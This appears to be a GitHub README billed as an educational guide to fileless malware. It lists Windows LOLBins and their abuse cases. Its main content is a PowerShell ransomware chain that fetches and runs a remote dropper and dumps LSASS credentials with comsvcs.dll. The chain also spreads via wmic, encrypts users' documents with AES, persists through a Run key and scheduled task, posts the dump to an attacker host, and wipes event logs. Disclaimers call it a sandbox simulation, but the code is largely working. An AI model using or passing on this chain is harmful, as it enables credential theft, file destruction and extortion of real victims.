 
# ⚠️ Advisory Warning: Educational Use Only  
This repository contains content related to NSFW (Not Safe for Work) cybersecurity topics including fileless malware, LOLBins, and adversary simulation tactics. The information provided is strictly for **educational, academic, and controlled research lab environments only**. **Do not deploy or replicate these techniques in unauthorized systems.** Misuse may constitute a violation of laws and ethical guidelines.

---

# 🧠 NSFW - Fileless Malware (Advanced Simulation Guide)

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** (Living off the Land Binaries) are legitimate Windows system utilities that adversaries repurpose to execute code, evade defenses, and persist. These tools are trusted, signed, and often overlooked by endpoint security solutions.

### ⚙️ Common LOLBins and Their Abuse Cases

| LOLBin              | Abused For                       | ATT&CK Tactics                          |
|---------------------|----------------------------------|-----------------------------------------|
| `rundll32.exe`      | DLL execution                    | Code execution, EDR bypass              |
| `mshta.exe`         | Run HTA payloads                 | Script execution, sandbox evasion       |
| `regsvr32.exe`      | Load COM DLLs                    | Fileless execution, C2 proxy            |
| `wmic.exe`          | Remote command execution         | Process launch, lateral movement        |
| `cmd.exe / powershell.exe` | Script runners          | Payload staging, persistence            |
| `msbuild.exe`       | Inline C# compile/exec           | Fileless malware loading                |
| `certutil.exe`      | Download/decode files            | Exfiltration, staging                   |
| `bitsadmin.exe`     | Remote file fetch                | Delivery, task persistence              |
| `schtasks.exe`      | Task scheduling                  | Privilege escalation, persistence       |
| `esentutl.exe`      | Copy/exec binary payloads        | Stealth operations, exfiltration        |

---

## 🧬 Theoretical Simulation: 100% Fileless Ransomware  
*Using the [MITRE ATT&CK](https://attack.mitre.org/) Framework for Mapping TTPs*

> ⚠️ **Disclaimer**: Code below is a synthetic simulation script intended for red team R&D under proper authorization. DO NOT EXECUTE OUTSIDE OF A SANDBOX ENVIRONMENT.

<details>
<summary>Click to view simulated PowerShell ransomware chain</summary>

```powershell
# 🎯 1. Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ 2. Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 3. Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 4. Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 5. Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 6. Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 7. Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 8. Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 9. Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 10. Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Resources

- 🔧 [PrintNightmare Deep Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [PrintNightmare Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧠 [MITRE ATT&CK Entry - S0697](https://attack.mitre.org/software/S0697/)
- 🧬 [LOLGEN - Generate Abuse Chains](https://lolgen.hdks.org/)
- 🦠 [Fileless Malware – Wikipedia Overview](https://en.wikipedia.org/wiki/Fileless_malware)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🖨️ [Printer Driver Exploits](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Final Note
This repository is a research artifact intended for cybersecurity professionals, malware analysts, and red team operators. Unauthorized use, real-world deployment, or replication of these techniques is prohibited. Always operate within the bounds of your local laws and professional codes of conduct.

